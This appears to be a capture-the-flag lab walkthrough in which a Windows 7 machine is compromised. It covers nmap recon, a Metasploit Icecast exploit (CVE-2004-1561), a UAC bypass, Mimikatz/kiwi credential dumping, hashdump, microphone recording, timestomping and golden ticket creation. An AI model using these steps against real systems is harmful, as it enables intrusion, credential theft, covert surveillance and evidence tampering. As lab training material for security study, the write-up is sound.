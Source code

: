 ## **Recon Stage**
> - Perform SYN scan on all ports.
```
nmap -sS -p- -vv -o nmap_scan.txt 10.10.51.67
```
> The above scan took way too long.
> - Performing an OS, version, script scan, and trace route *-A* with timing set with *-T4* on all ports.
```
nmap -A -T4 -p- -vv -o nmap_scan.txt 10.10.51.67
```
![](recon_1.png)
![](recon_2.png)
![](recon_3.png)

#### Interesting findings
>- 	*MSRDP* running on port `3389`
>- 	*SMB* running on port `139, 445`
>- 	*Icecast* running on port `8000`
>- 	*CommonName* of *DARK-PC*
>- 	Windows 7 Professional 7601



## **Access Stage**
>	- Research on Icecast shows that, that version is highly vulnerable to *Execute Code Overflow* `CVE-2004-1561`.
>	- Search in *Metasploit* for Icecast.
>	- `msfconsole`![](access_1.png)
>	- Use the found module add the required options, and make sure that the *LHOST* option has the *VPN IP*.
>	- Run the exploit `run` or `exploit`.
>	- Meterpreter session opened. ![](access_2.png)


## **Privilege Escalation Stage**
>	- Found user running the last Icecast process with `getuid`.
>	- Found build of windows with `sysinfo` although it was already found during recon stage.
>	- `run post/multi/recon/local_exploit_suggester` as recommended.
>	- Too many exploits to list.![](privesc_1.png)
```
use exploit/windows/local/bypassuac_eventvwr
```
>	- Make sure that LHOST is set to the VPN IP and set `SESSION`.![](privesc_2.png)
>	- `run` the exploit.![](privesc_3.png)
>	- Verify expanded permissions using `getprivs`
>	- To change ownership of files use `SeTakeOwnershipPrivilege`


## **Looting Stage**
>	- List the processes using `ps`![](looting_1.png)
>	- To interact with the *lsass* service; the service responsible for authentication within Windows, we need to be 'living in' a process that is the same architecture as the lsass service (x64 in the case of this machine) and has the same permissions. The chosen service is printer spool `spoolsv.exe`.
>	- Migrate to the process using `migrate -N spoolsv.exe`.
>	- Check user with `getuid`.![](looting_2.png)
>	- Load *Mimikatz* tool; a tool famous for password dumping, with `load kiwi` (Kiwi is the updated version of Mimikatz).
>	- Use `help` command to check for newly added Kiwi commands.
>	- Command `creds_all` retrieves all credentials.
>	- Run `creds_all`.![](looting_3.png)![](looting_4.png)
>	- *Mimikatz* allows us to steal this password out of memory even without the user *Dark* logged in as there is a scheduled task that runs the *Icecast* as the user *Dark*.
>	-  It also helps that *Windows Defender* & *Firewall* isn't running on the box.


## **Post-Exploitation Stage**
>	- Dump all the hashes stored on the system using `hashdump`.
>	- Watch the remote user's desktop in real time using `screenshare`.
>	- Record from a microphone attached to the system using `record_mic`.
>	- Modify timestamps of files on the system using `timestomp`.
>	- Mimikatz allows us to create a `golden ticket`, which allows us to authenticate anywhere with ease, use `golden_ticket_create`.
>	- `run post/windows/manage/enable_rdp` to remote into machines and view them as their users do.![](post_exploit_1.png)
>

